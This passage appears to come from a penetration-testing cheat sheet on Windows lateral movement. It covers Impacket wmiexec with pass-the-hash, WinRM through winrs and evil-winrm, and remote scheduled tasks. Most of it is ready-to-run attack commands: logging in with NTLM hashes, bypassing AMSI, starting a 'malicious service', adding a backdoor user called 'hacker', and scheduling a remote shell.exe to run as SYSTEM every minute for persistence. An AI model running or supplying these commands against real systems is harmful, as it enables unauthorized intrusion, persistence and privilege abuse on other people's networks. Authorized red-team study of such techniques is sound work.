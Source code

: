 **Impacket toolsuite**
```bash
python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c user@192.168.1.2
```

## WinRM
**Windows Remote Management**
+ similar things as wmi but through the http/https protocol.
+ default port 5985(http) and 5986(https)
+ windows 2012 R2 and above, can leverage the technique.
+ [using credentials to own windows boxes part3 wmi and winrm](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-3-wmi-and-winrm/)
  
```bash
# menu, check menu command.
menu

## common command.
## enable with powershell on attacker windows machine
Enable-PSRemoting -Force
upload
download
Bypass-4MSI

# with a malicious binary uploaded, run
## Start a malicious service
winrs -r:192.168.1.2 -u:CORP\user -p:password service.exe

## Add a user
winrs -r:192.168.1.2 -u:CORP\user -p:password "cmd.exe /c net user hacker P@ssw0rd /add"

# evil-winrm
## install 
gem install evil-winrm

## usage
evil-winrm -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.'  -i <IP>/<Domain>

## pass the hash
evil-winrm -u <username> -H <Hash> -i <IP>
```

## Schedule Task
+ schedule a task remotely, over port 135 using DCE/RPC commucations

```bash
schtasks /create /tn ServiceTask /tr C:\Windows\System32\service.exe /sc once /st 00:00 /S 192.168.1.2 /RU System

schtasks /run /tn ServiceTask /S 192.168.1.2

schtasks /F /delete /tn ServiceTask /S 192.168.1.2

##-schtask创建计划任务
net time \\ip
schtasks /create /s 192.168.210.102 /u username /p password /tn hack /sc minute /mo 1 /tr c:\shell.exe /ru system /f

##执行命令
schtasks /create /s 192.168.210.102 /uusername /p password /tn hack /sc minute /mo 1 /tr "C:\windows\system32\cmd.exe" /c 'ipconfig > c:\log.txt' /ru system /f

## at命令创建，常用xp
```